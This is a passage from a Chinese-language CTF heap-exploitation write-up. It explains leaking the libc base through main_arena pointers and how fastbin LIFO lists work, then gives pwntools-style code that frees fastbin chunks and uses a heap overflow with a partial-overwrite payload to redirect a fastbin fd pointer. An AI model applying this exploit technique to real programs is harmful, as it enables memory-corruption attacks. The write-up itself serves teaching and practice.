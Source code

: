 由于 main_arena 是 libc 中的一个全局变量，它的地址与 libc 的基地址有一个固定的偏移

因此，如果我们能够读取 small chunk 的 `fd` 或 `bk` 指针，就可以计算出 main_arena 的地址，进而计算出 libc 的基地址

提取申请几个小堆块

```c
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)
    
gdb.attach(p)
```

![](https://pic1.imgdb.cn/item/67c1c9efd0e0a243d40839da.png)

再释放掉两个 fast bin

```c
free(1)
free(2)
    
gdb.attach(p)
```

输入 bins 查看所有种类的堆块的链表情况

![](https://pic1.imgdb.cn/item/67c1ca34d0e0a243d40839e2.png)

**LIFO** 是 fastbin 的一个重要特性，表示 **后进先出**（Last In, First Out）

这意味着：

- 当释放一个 chunk 到 fastbin 时，它会被插入到链表的头部
- 当分配一个 chunk 时，会从链表的头部取出最近释放的 chunk

**fastbin** 是 glibc 中用于管理小内存块（通常小于 64 字节）的一种 bin

**fastbin** 是一个单向链表，每个空闲 chunk 通过 `fd` 指针指向下一个空闲 chunk

由于堆溢出的漏洞，可以覆盖后边的内存。我们把 chunk 2 的内容覆盖为 chunk 4 的地址

将如图标记处修改为 chuk4 的地址，只用修改低 8 字节即可

![](https://pic1.imgdb.cn/item/67c1ca8ad0e0a243d40839f7.png)

```python
# +-------------------+-------------------+-------------------+-------------------+
# |   Chunk 0 (idx=0) |   Chunk 1 (idx=1) |   Chunk 2 (idx=2) |   Chunk 3 (idx=3) |
# +-------------------+-------------------+-------------------+-------------------+
payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)

fill(0, payload)

gdb.attach(p)
```
